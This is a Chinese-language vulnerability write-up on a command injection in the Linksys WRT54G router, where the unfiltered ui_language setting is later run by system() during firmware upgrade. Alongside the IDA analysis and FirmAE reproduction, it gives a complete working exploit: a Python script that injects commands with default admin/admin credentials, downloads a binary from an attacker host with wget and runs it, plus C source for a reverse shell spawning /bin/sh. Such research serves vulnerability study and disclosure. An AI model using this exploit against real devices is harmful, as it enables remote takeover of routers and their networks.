# linksys WRT54G命令注入

## 漏洞描述&链接

在路由器登录后设置前端显示语言时存在过滤不严格，将恶意命令存入内存，导致在升级固件时造成命令注入漏洞

固件地址：https://www.linksys.com/us/support-article?articleNum=148648

firmeye：https://github.com/firmianay/firmeye

## 漏洞分析

binwalk解包固件之后得到文件系统



查找web服务器

```
find ./ -name "*http*"
grep -r "cgi
```

分析得到该路由器cgi功能是融合在httpd也就是web服务器文件中



将httpd拖进IDA，查找危险函数，首先查看system



有一处调用可能存在命令注入，直接拼接没有过滤，随后system()执行拼接后的结果，v6是nvram_get获取的ui_language值，是前端ui显示语言，这里的函数顾名思义是路由器更新功能，



ps：NVRAM是非易失性随机访问存储器，是指断电后仍能保持数据的 一种RAM。在嵌入式系统领域内， 可以直接理解成板子上的FLASH 芯片，里面保存着代码数据，用 户配置数据等，如 UBOOT,kernel,rootfs,user data。数据多以key/value形式储存。


在IDA搜索字符串ui_language，查看调用是由device_get_string_value()获取，没有经过过滤，猜测前端获取ui_language值同样没有过滤




## 漏洞复现

使用FirmAE模拟固件，成功模拟



使用admin/admin登录，设置ui显示语言，抓包，将ui_language修改为;+ping命令，需要url编码，放包后发现界面显示已损坏，说明这里

NVRAM已经成功存储ping命令




wireshark监听192.168.1.2，设置协议为icmp，因为前面存在漏洞的函数为升级功能，所以升级固件，创建一个扩展名为bin的文件，升级固件，由于存在前端校验，使用burp抓包绕过，然后放掉所有固件升级的包

ps：这里需要注意，在注入ping命令后，路由器页面已损坏，所以在验证时，需要提前打开两个页面，一个正常页面，另一个需要提前打开到固件升级页面




wireshark监听到icmp的包，来自路由器ping我的主机，命令执行成功



## GETSHELL

路由器没有telnetd，sshd等，查看路由器架构为MIPS小端，植入一个相应架构的二进制后门，这里使用buildroot编译



执行exp，得到反弹shell



## exp

**exploit.py**

```
import argparse
from dataclasses import dataclass
from typing import Tuple

import requests

import router_requests


@dataclass
class Router:
    host: str
    creds: Tuple[str, str]

    DEFAULT_LANG = 'en'

    REVSHELL_REMOTE_PATH = '/tmp/X'
    PING_LOG_REMOTE_PATH = '/tmp/ping.log'

    def exploit(self, attacker_host: str, attacker_handler_port: int, attacker_http_port: int):
        print(f'[*] Exploiting Linksys WRT54G @ {self.host}')
        self._upload_revshell(attacker_host, attacker_http_port)
        self._chmod_revshell_executable()
        self._run_revshell(attacker_host, attacker_handler_port)
        self._set_ui_language(self.DEFAULT_LANG)

    def _upload_revshell(self, attacker_host: str, attacker_http_port: int):
        print('[*] Uploading reverse shell executable.')
        self._run_shell_cmd(
            f'wget http://{attacker_host}:{attacker_http_port}/revshell -O{self.REVSHELL_REMOTE_PATH}')

    def _chmod_revshell_executable(self):
        print('[*] Making the reverse shell executable.')
        self._run_shell_cmd(f'chmod +x {self.REVSHELL_REMOTE_PATH}')

    def _run_revshell(self, attacker_host: str, attacker_handler_port: int):
        print('[*] Running the reverse shell!')
        self._run_shell_cmd(f'{self.REVSHELL_REMOTE_PATH} {attacker_host} {attacker_handler_port}')
        print('[*] Reverse shell exited!')

    def _run_shell_cmd(self, cmd: str, with_output: bool = False):
        cmd = f';{cmd}>{self.PING_LOG_REMOTE_PATH} 2>&1;' if with_output else f';{cmd};'
        print(f'[*] Running: {cmd}')
        self._set_ui_language(cmd)
        self._upgrade_firmware()

    def _set_ui_language(self, ui_language: str):
        req_query = router_requests.get_ui_language_query(ui_language)
        req = requests.post(f'http://{self.host}/apply.cgi', data=req_query, auth=self.creds)
        if not req.ok:
            raise ValueError(f'Failed to change ui_language. Request: {req}')

    def _upgrade_firmware(self):
        print(f'[*] Issuing a firmware upgrade.')
        req_query = router_requests.get_upgrade_query()
        req = requests.post(f'http://{self.host}/upgrade.cgi', data=req_query, auth=self.creds)
        if not req.ok:
            raise ValueError(f'Failed to issue a firmware upgrade. Request: {req}')


def main():
    parser = argparse.ArgumentParser(description='LinkSYS WRT54G Exploitation.',
                                     formatter_class=argparse.ArgumentDefaultsHelpFormatter)
    parser.add_argument('--host', required=True, help='Host of the router.')
    parser.add_argument('--username', default='admin', help='Router\'s username.')
    parser.add_argument('--password', default='admin', help='Router\'s password.')
    parser.add_argument('--attacker-host', required=True, help='Attacker\'s host.')
    parser.add_argument('--attacker-handler-port', type=int, default=4141, help='Reverse shell TCP handler port.')
    parser.add_argument('--attacker-http-port', type=int, default=8000,
                        help='HTTP server port to serve the reverse shell executable.')
    args = parser.parse_args()

    router = Router(args.host, (args.username, args.password))
    router.exploit(args.attacker_host, args.attacker_handler_port, args.attacker_http_port)


if __name__ == '__main__':
    main()
```


**router_requests.py**

```
import ipaddress


def get_ui_language_query(ui_language):
    return {
        "ui_language": ui_language,
        "lan_ipaddr_0": "192",
        "lan_ipaddr_1": "169",
        "lan_ipaddr_2": "1",
        "lan_ipaddr_3": "100",
        "lan_netmask": "255.255.255.0",
        "submit_button": "index",
        "change_action": "gozila_cgi",
        "submit_type": "language",
        "action": "",
        "now_proto": "dhcp",
        "daylight_time": "0",
        "lan_ipaddr": "4",
        "wait_time": "0",
        "need_reboot": "0",
        "wan_proto": "dhcp",
        "router_name": "WRT54G",
        "wan_hostname": "",
        "wan_domain": "",
        "mtu_enable": "0",
        "lan_proto": "dhcp",
        "dhcp_check": "",
        "dhcp_start": "100",
        "dhcp_num": "50",
        "dhcp_lease": "0",
        "wan_dns": "4",
        "wan_dns0_0": "0",
        "wan_dns0_1": "0",
        "wan_dns0_2": "0",
        "wan_dns0_3": "0",
        "wan_dns1_0": "0",
        "wan_dns1_1": "0",
        "wan_dns1_2": "0",
        "wan_dns1_3": "0",
        "wan_dns2_0": "0",
        "wan_dns2_1": "0",
        "wan_dns2_2": "0",
        "wan_dns2_3": "0",
        "wan_wins": "4",
        "wan_wins_0": "0",
        "wan_wins_1": "0",
        "wan_wins_2": "0",
        "wan_wins_3": "0",
        "time_zone": "-08+1+1",
        "_daylight_time": "1",
    }


def get_upgrade_query():
    return {
        "file": '; filename="pwned.bin"',
        "submit_button": "Upgrade",
        "change_action": "",
        "action": "",
        "process": ""
    }
```


**revshell.c**

```
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <arpa/inet.h>

int main(int argc, char *argv[])
{
    int port, sockt;
    struct sockaddr_in revsockaddr;

    if (argc != 3)
    {
        fprintf(stderr, "usage: %s HOST PORT\n", argv[0]);
        exit(EXIT_FAILURE);
    }

    port = atoi(argv[2]);

    sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr(argv[1]);

    connect(sockt, (struct sockaddr *)&revsockaddr, sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char *const sh_argv[] = {"sh", NULL};
    execve("/bin/sh", sh_argv, NULL);

    return 0;
}
```


## 总结

在手工寻找命令注入漏洞时，可以从两个方向入手。

1、从数据输入点入手，看获取了哪些输入，跟踪输入的信息变量，看最终结果有没有被危险函数如system popen等执行。

2、从危险函数入手，不光要查找system popen等，还需要查找“包装后的”，例如dosystem，dopopen，docmd等等。如果有直接拼接就使用system()等执行的，就需要往上查看输入源，如果可控且过滤不严格，就有可能存在命令注入。